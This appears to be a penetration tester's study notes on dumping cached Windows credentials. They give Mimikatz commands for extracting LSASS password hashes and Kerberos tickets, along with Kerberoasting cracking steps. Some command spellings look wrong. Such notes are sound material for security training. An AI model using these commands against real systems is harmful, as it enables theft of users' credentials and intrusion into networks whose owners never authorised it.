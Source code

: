 # Retreiving Credentials from Cached Memory
> Note: 
> SYSTEM or local admin is needed to access hashes stored in LSASS. Local privilege escalation is commonly needed before password hashes can be dumped


### Mimikatz
- mimikatz can either be used directly through Powershell or TaskManager can be used to dump LSASS memory and the data can be imported to Mimikatz
- ```/export```  option will save output to local disk
##### Pass Hashes
- always start with  ```privilege::debug```  to make sure that the account has the correct privs to dump from LSASS
- ```sekurlsa::logonpasswords``` is used to dump pass hashes for all users loged into current server, this includes RDP
##### Grabbing Tickets (Kerberoasting)
- ```sekurlsa::tickets``` grabs tickets of logged on user and any other users on the server
	- ```kerberos::list``` or ```klist``` will grab all tickets without needing admin privs if these are pulled to local disk they can be bruteforced bc they are encrypted with the SPN password hash
	- get the wordlist on kali -> ```apt update && apt install keberroast```
	- example kerberoast attack -> ```python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt username@domain```
		- hashcat and john can do the same thing
- ***Invoke-Kerberoast.ps1 in PowershellEmpire will enumerate all SPN's, request a ticket for them, and then fomat them to be cracked in John/Hashcat***
- 